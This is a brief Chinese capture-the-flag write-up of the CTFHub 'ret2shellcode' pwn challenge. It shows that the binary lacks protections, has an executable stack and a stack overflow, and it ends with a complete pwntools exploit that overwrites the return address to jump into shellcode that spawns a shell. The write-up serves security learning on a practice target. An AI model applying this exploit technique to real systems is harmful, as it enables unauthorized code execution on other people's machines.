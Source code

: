 ```yaml
---
title: CTFHUB Pwn ret2shellcode Writeup
date: 2020-11-01 14:13:19
tags:
- CTF刷题
- PWN
- ROP
- 栈溢出
categories: 竞赛
mathjax: true
---
```


[题目链接](https://www.ctfhub.com/#/skilltree)

<!-- more -->

checksec 看一下：

![20201101130628](https://raw.githubusercontent.com/WuTao18/images/master/notes/2020/20201101130628.png)

没有保护。

IDA 反汇编看一下：

![20201101140409](https://raw.githubusercontent.com/WuTao18/images/master/notes/2020/20201101140409.png)

可以栈溢出。

![20201101130748](https://raw.githubusercontent.com/WuTao18/images/master/notes/2020/20201101130748.png)

没有 system 函数。

gdb vmmap 看一下栈是可执行的：

![20201101131013](https://raw.githubusercontent.com/WuTao18/images/master/notes/2020/20201101131013.png)

可以把 shellcode 放在返回地址之后，然后把返回地址指向 shellcode。


exp 如下：

```python
from pwn import *
import re

# context.log_level = "debug"
context.arch = 'amd64'

p = process("./pwn")

buf_addr = p.recvuntil("]")
buf_addr = int(buf_addr[-15: -1], 16)  # buf 的地址
shellcode_addr = buf_addr + 32  # shellcode 的地址 = buf与rbp的距离16 + rbp的宽度8 + 返回地址的长度8


shellcode = asm(shellcraft.sh())

payload = b'a' * 24 + p64(shellcode_addr) + shellcode
p.recv()
p.sendline(payload)
p.interactive()
```
